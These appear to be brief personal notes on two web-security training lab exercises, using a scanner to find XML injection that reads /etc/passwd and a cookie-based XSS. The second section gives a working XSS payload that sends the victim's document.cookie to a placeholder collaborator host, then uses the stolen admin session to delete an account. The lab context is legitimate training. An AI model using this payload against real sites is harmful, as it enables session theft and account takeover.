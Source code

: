 ### Discovering vulnerabilities quickly with targeted scanning

Right click on target, start deep scan. 

It shows this: 
![[Pasted image 20240731005408.png]]

And the lab asks for the `/etc/passwd` file.

It's a XML injection attack. Try different payloads, one will work.

---
### Scanning non-standard data structures

Log in, and see your cookie is something like `wiener:hashedInfo`

Select the "wiener" and scan in the selected insertion point. It'll find a XSS. Send that to repeater, and use this payload:
```text
'"><svg/onload=fetch(`//YOUR-COLLABORATOR-PAYLOAD/${encodeURIComponent(document.cookie)}`)>:YOUR-SESSION-ID
```

In the collaborator you will see the administrator session cookie. Use it to log in and delete Carlos account.